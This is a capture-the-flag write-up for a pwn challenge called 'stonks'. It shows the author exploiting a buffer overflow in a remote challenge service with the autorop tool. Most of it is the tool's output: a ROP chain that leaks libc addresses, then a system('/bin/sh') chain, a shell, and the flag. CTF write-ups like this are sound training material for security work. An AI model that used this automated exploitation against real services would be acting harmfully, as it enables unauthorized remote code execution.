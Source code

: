 # stonks (231 solves, 391 points)

## Description
check out my cool stock predictor!

`nc stonks.hsc.tf 1337`

## Solution
Disclosure: There is no technical "pwning" done in this solution since we're bad at pwn

Once we connect, we can do some initial fuzzing with different characters and lengths, and we find that we can crash it with a simple buffer overflow (which explains the large # of solves as well). Now, we could go into gdb and write an exploit manually, but since I'm a script kiddie I decided to use [autorop](https://github.com/mariuszskon/autorop) which is a great tool for simple pwns like this. Following the syntax, we are brought to an interactive shell as shown below. 

```
pranav@pranav-VirtualBox:~/Desktop/autorop$ autorop chal stonks.hsc.tf 1337
[*] '/home/pranav/Desktop/autorop/chal'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to stonks.hsc.tf on port 1337: Done
[*] Produced pipeline: pipeline_instance(<function corefile at 0x7f44081168b0>, <function puts at 0x7f4408116b80>, <function auto at 0x7f4408116dc0>, <function system_binsh at 0x7f4408116a60>)
[*] Pipeline [1/4]: corefile
[!] Could not find executable 'chal' in $PATH, using './chal' instead
[+] Starting local process './chal': pid 3380
[*] Process './chal' stopped with exit code -11 (SIGSEGV) (pid 3380)
[+] Receiving all data: Done (57B)
[!] Error parsing corefile stack: Found bad environment at 0x7ffda6504fdd
[+] Parsing corefile...: Done
[*] '/home/pranav/Desktop/autorop/core.3380'
    Arch:      amd64-64-little
    RIP:       0x4012c2
    RSP:       0x7ffda6503838
    Exe:       '/home/pranav/Desktop/autorop/chal' (0x400000)
    Fault:     0x6161616161616166
[*] Fault address @ 0x6161616161616166
[*] Offset to return address is 40
[*] Pipeline [2/4]: puts
[+] Opening connection to stonks.hsc.tf on port 1337: Done
[*] Loaded 14 cached gadgets for 'chal'
[*] 0x0000:         0x40101a ret
    0x0008:         0x401363 pop rdi; ret
    0x0010:         0x403ff0 [arg0] rdi = __libc_start_main
    0x0018:         0x401094 puts
    0x0020:         0x40101a ret
    0x0028:         0x401363 pop rdi; ret
    0x0030:         0x404018 [arg0] rdi = got.puts
    0x0038:         0x401094 puts
    0x0040:         0x40101a ret
    0x0048:         0x4012c3 main()
[*] leaked __libc_start_main @ 0x7f87508b1fc0
[*] leaked puts @ 0x7f87509125a0
[*] Pipeline [3/4]: auto
[*] Searching for libc based on leaks using libc.rip
[!] 6 matching libc's found, picking first one
[*] Downloading libc
[*] '/home/pranav/Desktop/autorop/.autorop.libc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Pipeline [4/4]: system_binsh
[*] Loaded 201 cached gadgets for '.autorop.libc'
[*] 0x0000:         0x40101a ret
    0x0008:         0x401363 pop rdi; ret
    0x0010:   0x7f8750a425aa [arg0] rdi = 140219150247338
    0x0018:         0x4010a4 system
    0x0020:         0x40101a ret
    0x0028:         0x4012c3 main()
[*] Switching to interactive mode
Please enter the stock ticker symbol: aaaaaaaabaaaaaaacaaaaaaadaaa\x06will increase by $6 today!
$ ls
bin
boot
dev
etc
flag
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cat flag
flag{to_the_moon}
```
As shown above, once we get to the interactive shell, all we have to do is `ls` and  `cat flag`, allowing us to solve this challenge in under a minute. Clearly, sometimes being a script kiddie does pay off.

## Flag
`flag{to_the_moon}`

